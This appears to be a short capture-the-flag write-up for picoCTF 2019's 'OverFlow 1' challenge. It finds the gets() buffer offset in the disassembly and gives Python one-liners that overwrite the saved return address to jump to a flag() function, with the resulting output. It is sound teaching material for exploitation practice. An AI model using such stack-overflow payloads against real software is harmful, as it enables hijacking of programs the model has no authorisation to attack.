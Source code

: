 # Overflow 1

There is a simple get_return_address() call which lets us know when we overflow the return address with our input

```c
printf("Woah, were jumping to 0x%x !\n", get_return_address());
```

On taking a look at the disassembly of the vuln() function , we can clearly see that the input we give gets stored on to the buffer at [ebp-0x48]

``` assembly
8048674:       8d 45 b8                lea    eax,[ebp-0x48]
8048677:       50                      push   eax
8048678:       e8 b3 fd ff ff          call   8048430 <gets@plt>
```
So we need to give an input of 0x48 bytes + 0x4 bytes (to override the saved ebp) + 0x4 bytes (to override the saved eip)

```bash
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"C"*4)' | ./vuln 
Give me a string and lets see what happens: 
Woah, were jumping to 0x43434343 !
Segmentation fault (core dumped)

```

Now , Instead of 4 C's we add in the address of the flag() function in the little endian format.
``` bash
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*4+"\xe6\x85\x04\x08")' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
flag{0v3rfl0w_1}
```
and there's the flag..!
